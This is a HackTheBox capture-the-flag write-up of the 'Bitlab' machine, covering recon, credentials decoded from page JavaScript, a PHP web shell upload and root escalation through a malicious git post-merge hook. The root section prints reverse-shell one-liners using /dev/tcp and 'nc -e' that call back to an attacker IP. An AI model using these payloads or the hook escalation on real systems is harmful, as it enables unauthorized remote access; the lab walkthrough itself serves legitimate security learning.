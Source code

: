 ```yaml
---
layout: single
title: Bitlab Writeup
tags: hackthebox
date: 2019-12-14
classes: wide
excerpt: Bitlab machine was a great machine, The machine is centered around a github instance where you have to gain access through finding the credentials for our foothold. 
header:
    icon: /assets/images/hackthebox.webp

---
```

Bitlab machine was a great machine, The machine is centered around a github instance where you have to gain access through finding the credentials for our foothold.
## Recon
In our nmap scan it  shows two ports which is `80 and 22`
### nmap scan
```
Nmap scan report for bitlab.htb (10.10.10.114)
Host is up (0.38s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://bitlab.htb/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Website - 80 TCP
By checking the port 80 first we can see that it has a github instance.

### directory scan:
 We can see that by running ```gobuster```  it shows us multiple directories that is in the site.
```
"public"                                                                             
"robots.txt"                                                                         
"root"                                                                               
"search"  Disallow: /autocomplete/users
Disallow: /search
Disallow: /api
Disallow: /admin
Disallow: /profile
Disallow: /dashboard
Disallow: /projects/new
/groups/new
groups/*/edit
/users
/help
```
## User:
 To gain the initial foothold the first thing we should do is explore the site as it may have a directory that haven't got founded by gobuster.
By going to the ```bookmarks.html``` we can see a javascript code.
The javascript code is the following:

![f51d218b.png](/assets/images/bitlab/f51d218b.png)

and decoding it shows the username and password:
```
user:clave, password: 11des0081x
```
after logging in with the username and password, in this site we have to figure out on how we can upload a shell 

### Shell upload:
1. Listen to a connection in your machine through nc
2. Go to the profile repository
3. Edit the index.php with a php shell
4. Go to bitlab.htb/profile

![Screenshot_2019-10-02 Projects · Dashboard.png](/assets/images/bitlab/07dc18ba.png)

## Root:
By typing `sudo -l` we can see that we can run git pull as root, If you don't have any idea how  git pull works checkout this [link](https://git-scm.com/docs/git-pull) 

![Screenshot_2019-10-02_09-20-50.png](/assets/images/bitlab/4ef88a6c.png)

Copy a repository from the website through the `/tmp directory`
```
www-data@bitlab:/tmp$ cp /var/www/html/profile .
```
To root this machine we have to use github hooks to execute our custom when events occurs. For more details click [here](https://githooks.com/)

Using `post-merge` to get shell:
```
www-data@bitlab:/tmp/profile/.git/hooks$ echo '#!/bin/bash' > post-merge
www-data@bitlab:/tmp/profile/.git/hooks$ 
cat post-merge
#!/bin/bash
www-data@bitlab:/tmp/profile/.git/hooks$ echo 'bash -i >& /dev/tcp/10.10.14.17/1234 0>&1' >> post-merge

cat post-merge
#!/bin/bash
nc -e /bin/sh 10.10.14.17 1234
www-data@bitlab:/tmp/profile/.git/hooks$ chmod +x post-merge
  
```
1. Edit something in the repository through the website
2. Submit a merge request
3. do a `sudo git pull` in the local repository


![Screenshot_2019-10-03 Update README md ( 9) · Merge Requests · Administrator Profile.png](/assets/images/bitlab/1be6bbff.png)

## Rooted

Flag:
```
root@bitlab:~# cat root.txt
cat root.txt
redacted
root@bitlab:~# 


```

